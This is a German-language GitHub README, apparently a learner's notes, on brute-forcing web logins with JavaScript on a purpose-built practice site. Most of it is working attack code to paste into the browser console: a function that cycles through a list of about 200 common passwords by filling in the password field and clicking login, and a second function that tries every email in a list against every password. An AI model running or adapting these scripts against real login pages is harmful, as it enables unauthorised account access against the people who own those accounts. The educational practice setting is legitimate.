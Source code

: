 ### Login Hacken mit JavaScript
---
#### Ablauf
- Mit diesem Video habe ich meine Hacker Kompentenzen Aufgebaut. [Video](https://www.youtube.com/watch?v=PvUArQNe3LA)
  <br>
- Damit wir das Gelernte umsetzen können, versuchen wir auf einer Website, die genau für Passwort und E-Mail Hecken Programmiert wurde, all diese Codes aus: [Website](https://junusergin.github.io/hackme-part2/login.html)
  <br>
- Die benötigten Ressourcen um zu hacken, finde ich auf diesem Repository. [Github](https://github.com/JunusErgin/hackme-part2)

<br>


 ---

#### Mein Vorgehen
  1. Ich schaute das Video und probierte selber aus. Dazu habe ich mir einige Notizen gemacht. Mir wurde beigebracht wie ein Hacker denkt und was es für möglichkeiten gibt ein Passwort zu hacken, wie z.B die schnelle und die langsamere (aufwendigere) Art funktioniert.

  <br>
     - Die schnelle variante wäre sich eine Liste mit höffig benutzten Passwörter zu kopieren und mit einer Funktion schnell ausführen zu können.
  <br>

  **Funktion:**

~~~ javascript
let index = 1;
function tryCombinations(combinations) {
    console.log('Trying Password', combinations[index]);
    password.type = 'text';
    password.value = combinations[index];
    loginButton.click();
    index++;
    if (index < combinations.length) {
        setTimeout(tryCombinations, 500, combinations);
    }
}

~~~

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**Der Ausführung befehl**

~~~ javascript
tryCombinations(dictionary)
~~~

<br>

  - Die langsame Art wäre jede einezelne Kompination von ein stelligen Zahlen/Buchstaben aufzuschreiben und ausprobieren. Die sogenannte 

**Brute Force**.

![Bruteforce](images/bruteforce.jpg)

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**
1. Jetzt gibt es noch ein Login, die eine E-Mail benötigt. Um an die E-Mail drann zu kommen gehe ich auf [Github](https://github.com/JunusErgin/hackme-part2). Der Vorgang bleibt ähnlich wie beim Passwort hacken, nur das die Funktion anderst ist. Zuerst kommen die Passwörter, danach die E-Mails und zuletzt die Funktion mit dem Ausführendem Befehl. **Eine E-Mail wird mit allen Passwörter getestet.**

**Passwörter:**

~~~ javascript
let dictionary = [123456, 123456789, 12345, "qwerty", "password", 12345678, 111111, 123123, 1234567890, 1234567, "qwerty123", "000000", "1q2w3e", "aa12345678", "abc123", "password1", 1234, "qwertyuiop", 123321, "password123", "1q2w3e4r5t", "iloveyou", 654321, 666666, 987654321, 123, "123456a", "qwe123", "1q2w3e4r", 7777777, "1qaz2wsx", "123qwe", "zxcvbnm", 121212, "asdasd", "a123456", 555555, "dragon", 112233, 123123123, "monkey", 11111111, "qazwsx", 159753, "asdfghjkl", 222222, "1234qwer", "qwerty1", 123654, "123abc", "asdfgh", 777777, "aaaaaa", "myspace1", 88888888, "fuckyou", "123456789a", 999999, 888888, "football", "princess", 789456123, 147258369, 1111111, "sunshine", "michael", "computer", "qwer1234", "daniel", 789456, 11111, "abcd1234", "q1w2e3r4", "shadow", 159357, "123456q", 1111, "samsung", "killer", "asd123", "superman", "master", "12345a", "azerty", "zxcvbn", "qazwsxedc", 131313, "ashley", "target123", 987654, "baseball", "qwert", "asdasd123", "qwerty", "soccer", "charlie", "qweasdzxc", "tinkle", "jessica", "q1w2e3r4t5", "asdf", "test1", "1g2w3e4r", "gwerty123", "zag12wsx", "gwerty", 147258, 12341234, "qweqwe", "jordan", "pokemon", "q1w2e3r4t5y6", 12345678910, 1111111111, 12344321, "thomas", "love", "12qwaszx", 102030, "welcome", "liverpool", "iloveyou1", "michelle", 101010, 1234561, "hello", "andrew", "a123456789", "a12345", "Status", "fuckyou1", "1qaz2wsx3edc", "hunter", "princess1", "naruto", "justin", "jennifer", "qwerty12", "qweasd", "anthony", "andrea", "joshua", "asdf1234", "12345qwert", "1qazxsw2", "marina", "love123", 111222, "robert", 10203, "nicole", "letmein", "football1", "secret", 1234554321, "freedom", "michael1", 11223344, "qqqqqq", 123654789, "chocolate", "12345q", "internet", "q1w2e3", "google", "starwars", "mynoob", "qwertyui", 55555, "qwertyu", "lol123", "lovely", "monkey1", "nikita", "pakistan", 7758521, 87654321, 147852, "jordan23", 212121, 123789, 147852369, "123456789q", "qwe", "forever", 741852963, "123qweasd", "123456abc", "1q2w3e4r5t6y", "qazxsw", 456789, 232323, 999999999, "qwerty12345", "qwaszx", 1234567891, 456123, 444444, "qq123456", "xxx"];
~~~

**E-Mails**

~~~Javascript
let emails = [
    'albert.einstein@hacker-email.com',
    'grace.hopper@hacker-email.com',
    'marie.curie@hacker-email.com',
    'konrad.zuse@hacker-email.com',
    'stephanie-kwolek@hacker-email.com',
    'carl-friedrich.gauss@hacker-email.com',
    'shirley-ann.jackson@hacker-email.com',
    'gertrude-belle.elion@hacker-email.com',
    'steve.wozniak@hacker-email.com',
    'rudolf.bayer@hacker-email.com',
    'ada.lovelace@hacker-email.com'
];
~~~

**Funktion**

~~~Javascript
function emailDictionaryAttack(i, j) { // i = 0; j = 0
    console.log('Testing', emails[i], dictionary[j]);
    password.type = 'text';
    username.value = emails[i];
    password.value = dictionary[j];
    loginButton.click();
    j++;
    if (j >= dictionary.length) {
        i++;
        j = 0;
    }
    if (i < emails.length || j < dictionary.length) {
        setTimeout(emailDictionaryAttack, 20, i, j);
    }
}
~~~

**Der Ausführ Befehl**

~~~Javascript
emailDictionaryAttack(0, 0)
~~~

<br>

**Das alles kann ich mit Rechtsklick dann auf Untersuchen und auf das Feld aufdem Konsole steht selber einfügen und ausprobieren!**
